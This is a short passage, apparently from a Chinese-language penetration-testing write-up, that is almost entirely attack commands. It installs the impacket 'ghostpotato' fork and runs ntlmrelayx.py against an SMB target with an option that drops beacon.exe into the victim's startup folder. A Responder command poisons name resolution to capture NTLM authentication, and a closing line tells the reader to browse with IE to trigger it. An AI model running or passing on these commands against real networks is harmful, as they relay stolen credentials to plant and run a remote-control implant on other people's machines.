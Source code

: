 

```bash
cd impacket-ghostpotato
pip uninstall impacket
pip install .
cd examples
python3 ntlmrelayx.py -t smb://192.168.91.2 -smb2support --gpotato-startup beacon.exe(内容)
```

![](img/19.png)

```
responder -I eth0 --lm
```

使用 IE 浏览器进行访问

![](img/20.png)
